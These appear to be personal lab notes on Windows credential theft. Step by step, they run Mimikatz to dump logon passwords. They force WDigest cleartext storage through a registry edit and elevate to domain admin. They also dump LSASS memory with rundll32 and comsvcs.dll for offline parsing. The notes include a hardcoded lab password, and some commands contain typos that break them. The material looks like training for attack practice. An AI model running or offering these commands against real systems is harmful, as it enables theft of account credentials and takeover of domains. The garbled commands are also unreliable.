 # Credential Grabbing
> remoted into the client as...someone local/domain? Admin?
> 
1. Fucking mimikatz basic bitches.
2. Powershell:
`cd c:\Users\Public\Desktop\LAB_FILES\assets`
3. `expand-archive mimikatz_trunk.zip`
4. Run mimikatz meow.
   1. `cd mimikatz_trunk\x64`
   2. `.\mimikatz.exe`
   3. In Mimikatz terminal:
      1. `mimikatz # privilege::debug`
      2. `mimikatz # log m.txt`
      3. `mimikatz # sekurlsa::logonpasswords`
      4. `mimikatz # sekurlsa::wdigest`
5. In a separate powershell window:
```powershell
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProvidersWDigest /v UseLogonCredential /t REG_DWORD /d 1
runas /user:wheel\Administrator
pw:12qwaszx!@QWASZX
```
>runas is done to actually store the password

6. Back in mimikatz:
   1. `mimikatz # sekursla::logonpasswords`
   2. `sekursla::wdigest`
>Yay clear text pw!

8. Elevate
`mimkatz # token::elevate /domainadmin`


## Other way lolbins
1. in an local admin powershell:
```
get-process lsass

rundll32.exe c:\Windows\system32\comsvcs.dll, MiniDump <pid> C:\Windows\temp\mini.dump full
```

2. In mimikatz (this can be done "offline")
```
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonPasswords full

```





